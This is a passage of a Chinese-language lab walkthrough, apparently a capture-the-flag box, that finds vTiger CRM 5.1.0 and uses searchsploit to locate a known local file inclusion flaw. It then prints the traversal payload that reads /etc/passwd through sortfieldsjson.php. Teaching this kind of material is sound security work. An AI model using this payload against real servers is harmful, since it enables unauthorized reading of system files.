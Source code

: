 https://10.10.10.7/vtigercrm/

我们可以看到应用的版本: **vTiger CRM 5.1.0**

我将使用 Searchsploit 来检查 vTigerCRM 上是否有任何已知的漏洞

![Screenshot-2019-09-03-at-00.35.42](img/57027ab25ac48ce23fd8bf76a0fbca26.png)

我使用以下命令

```
searchsploit vtiger
```

我们可以看到几个漏洞。我用这个命令检查本地文件包含

```
searchsploit -x 18770.txt
```

我有一个利用和代码的摘要

![Screenshot-2019-09-03-at-00.38.12](img/ddb2ed2d89f029cd6a1de3676ebd6344.png)

LFI 漏洞如下

```
/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

您也可以检查漏洞数据库来查找漏洞
